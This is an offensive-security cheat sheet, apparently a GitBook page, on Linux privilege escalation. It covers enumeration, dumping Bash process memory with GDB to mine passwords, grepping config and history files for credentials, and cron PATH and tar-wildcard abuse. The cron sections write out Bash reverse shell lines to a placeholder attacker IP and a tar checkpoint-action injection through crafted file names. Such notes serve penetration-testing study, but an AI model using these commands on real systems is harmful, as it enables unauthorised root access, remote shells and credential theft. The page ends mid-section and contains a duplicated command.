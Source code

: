 # Linux

## Linux enumeration

#### System enumeration

```bash
cat /etc/*-release #Enumerate the operative system's information
lsb_release -a #Linux Standard Base (LSB) information
hostnamectl #Hostame systemd utility
uname -a #Kernel version and operative system architecture
ps aux | grep root #Processes running as root
#We need to list the software installed on /usr/local, /user/local/bin/, /opt/, /var, /usr/arc
dpkg -l #List the installed packages on Debian
rpm -qa #List the installed software RHEL or Fedora
```

#### User and group enumeration

```bash
whoami #Determine the current user
cat /etc/passwd #Enumerate other user accounts
groups <username> #Enumerate the groups our account is part of
cat /etc/group #List the groups on the system
find / -perm -u=s -type f 2>/dev/null #Search for SUID binaries 
```

#### Network enumeration

```bash
ifconfig #Enumerate target network interfaces and their details
route #Routing table
netstat -ant #Active connections and ports
```

#### Automated enumeration tools

#### LinPEAS

[https://github.com/carlospolop/\
privilege-escalation-awesome-scripts-suite](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)

#### Linux exploit suggester

[https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)

## Linux Kernel Exploits

#### Local enumeration tools

* LinPEAS

#### Enumerating system information

* Using Linpeas, we can enumerate only system information: `./linpeas.sh -o SysI`
* Using the **Linux exploit suggester** tool
* Using searchsploit after knowing the kernel version

## Linux Password Mining

#### Extracting passwords from memory

1. `ps -ef` or `ps -ef | grep <SERVICE_NAME>`  &#x20;
2. We can utilize GDB to dump the memory of the Bash service in order to reveal credentials that may have been entered in the Bash session earlier on by other users. `GDB -p <PID>`&#x20;
3. List all mapped memory reginos for the procces using the following command in GDB: `info proc mappings`&#x20;
4. Dump the memory of the service: `dump memory <OUTPUT_FILE> <START_ADDRESS> <STOP_ADDRESS>`&#x20;
5. After dumping the memory, we can utilize the strings utility to identify potential credentials: `strings /<OUTPUT_FILE> | grep passw`&#x20;

#### Searching for passwords in configuration files

* Perform a recursive scan from the root of the files system and output a list of files that contain the `password` keyword:&#x20;

```bash
grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null
#Use also passw or pass
#Limit the folder to '/etc' or '/home/<USER>' to decrease the amount of info
```

* Use `find` with `grep` to fine-tune the searches.

```bash
find /etc -type f -exec grep -i -I "PASS" {} /dev/null \;
#This command will output a list of files in the /etc directory that contain the pass keyword.
```

#### Searching for passwords in history files

* Analyze the `user` account Bash history file

```bash
cat /home/wizard/.bash_history | grep "pass"
```

* Output the entire history of commands

```bash
cat /home/wizard/.bash_history | grep "pass"
```

## Scheduled Tasks

#### Enumerate cron paths

```bash
crontab
crontab -l
ls -alh /var/spool/cron;
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny*
```

#### Escalating privileges via cron paths

This thechnique involves identifying the default `$PATH` variable that's been configured for cron jobs in the `crontab` file, generating a payload, and placing it in the path.

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

So we create the `overwrive.sh` script in the /home/user folder and insert a Bash reverse shell.

```bash
echo "bash -i >& /dev/tcp/<KALI-IP>/<PORT> 0>&1" > overwrite.sh
```

#### Escalation via cron wildcards (\*)

Using the example above: `cat /usr/local/bin/compress.sh`&#x20;

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

tar utility has a checkpoint feature that is used to display progress messages after a specific set of files. It also allows users to define a specific action that is executed during the checkpoint. We can leverage this feature to execute a reverse shell payload that will provide us with an elevated session when executed.

```bash
echo 'bash -i >& /dev/tcp/<KALI-IP>/<PORT> 0>&1' > shell.sh
touch /home/user/--checkpoint=1 #Set up tar checkpoint
touch /home/user/--checkpoint-action=exec=sh\ shell.sh #Set the checkpoint action

```

#### Escalation via file overwrites

The success and viability of this technique will depend on whether we have the necessary permissions to write or make changes to the script or file being run by the cron job.

Using the first example, if script is not found in the first directory, cron will check the other directories specified in the $PATH variable

we can search for the script in the other directories specified in the $PATH variable. This can be done by listing the contents of each directory, as follows: `ls -al /usr/local/bin | grep overwrite.sh` or `locate overwrite.sh` . After, we identify the permissions and create a overwrite.sh with a reverse shell.

## Exploiting SUID Binaries

<figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

#### Changing permissions

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Examples:&#x20;

```bash
chmod +x script.sh #Executable permissions
chmod u+x script.sh #Executable permissins to all users
chmod g+x, a+w script.sh #Groups executable permissions and all users and groups write permissions
chmod a-x script.sh #Remove executable permissions from a file
```

#### Understanding SUID permissions
